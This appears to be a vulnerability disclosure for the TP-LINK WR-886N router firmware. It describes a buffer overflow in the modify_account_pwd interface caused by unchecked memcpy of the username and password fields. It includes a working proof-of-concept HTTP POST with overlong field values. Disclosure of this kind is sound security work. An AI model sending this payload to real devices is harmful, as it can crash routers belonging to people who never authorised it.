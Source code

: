 # TP-LINK WR-886N Vulnerability
This vulnerability is on the /cloud_config/router_post/modify_account_pwd interface and affects the latest version of the router operating system (which is a different RTOS system from the linux operating system), and the firmware version is TL-WR886N V6.0 upgrade software 20190826 2.3.8
## Vulnerability description
There is a buffer overflow vulnerability on the /cloud_config/router_post/modify_account_pwd interface.

1. An interface ```/cloud_config/router_post/modify_account_pwd``` is registered first in the modifyAccPwdRegister function.
![](./modifyAccPwdRegister1.png)
2. In the handler, the v7 variable is the ```username``` field in the packet, and the v9 variable is the ```old_pwd``` field in the packet,and the v11 variable is the ```new_pwd``` field in the packet. Then directly memcpy to the a3 variable refers to the address space, there is a buffer overflow problem.
![](./modifyAccPwdRegister2.png)
## poc
```
POST /cloud_config/router_post/modify_account_pwd HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&old_pwd=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb&new_pwd=cccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc
```
## Acknowledgment 
Credit to [@Yu3H0](https://github.com/Yu3H0/) ,[@leonW7](https://github.com/leonW7), [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.